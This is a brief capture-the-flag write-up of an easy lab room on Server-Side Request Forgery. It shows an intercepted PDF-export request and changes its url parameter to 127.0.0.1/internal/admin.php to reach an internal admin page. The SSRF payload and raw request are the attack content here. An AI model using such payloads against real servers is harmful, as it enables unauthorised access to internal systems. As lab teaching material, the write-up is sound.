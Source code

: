 <img width="496" height="157" alt="image" src="https://github.com/user-attachments/assets/51bba2ae-f494-42b5-9902-b3e0f724c7bf" />

As we don't have any knowledge of where the target server really resides in we click on the "Export to PDF" button just to see what kind of information come out of it

<img width="969" height="826" alt="Bildschirmfoto vom 2025-10-06 15-50-56" src="https://github.com/user-attachments/assets/b30f082c-a5ae-45c8-95e4-6c0a7937898f" />

Now the IP-address of the target server is evident. 
As the challenge was explicitly stating that an attacker could be able to send crafted requests from a vulnerable server to internal or external resources, bypassing client-side restrictions we use Burp Suite to check what happens if we click on the "Export to PDF" button and intercept the request.

```
POST /export2pdf.php HTTP/1.1
Host: 10.10.240.81
Content-Length: 44
Cache-Control: max-age=0
Accept-Language: en-GB,en;q=0.9
Origin: http://10.10.240.81
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.6723.70 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://10.10.240.81/index.php
Accept-Encoding: gzip, deflate, br
Cookie: PHPSESSID=cc4759857e2ad8b56d019f770db8c6d4
Connection: keep-alive

url=http%3A%2F%2F127.0.0.1%2Fserver-info.php
```

I changed the url parameter to *url=http://127.0.0.1/internal/admin.php* in hopes of getting the flag.

<img width="682" height="170" alt="Bildschirmfoto vom 2025-10-06 15-45-26" src="https://github.com/user-attachments/assets/44432ea5-fbd9-44a3-b34e-557484d3545c" />

And we are successful. This room is a very easy way to get acquainted with vulnerabilities like Server-Side Request Forgery and make the logic behind what goes on digestible. I hope we can get to something more challenging next time around. 
